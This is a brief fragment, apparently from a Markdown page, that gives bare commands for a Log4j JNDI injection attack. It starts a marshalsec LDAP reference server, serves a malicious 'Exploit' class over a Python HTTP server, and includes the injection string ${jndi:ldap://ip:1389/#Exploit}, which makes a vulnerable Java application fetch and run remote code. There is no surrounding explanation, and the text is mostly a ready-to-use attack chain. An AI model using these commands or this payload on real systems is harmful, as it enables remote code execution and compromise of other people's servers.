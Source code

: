 java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8888/#Exploit

python -m http.server 8888

${jndi:ldap://ip:1389/#Exploit}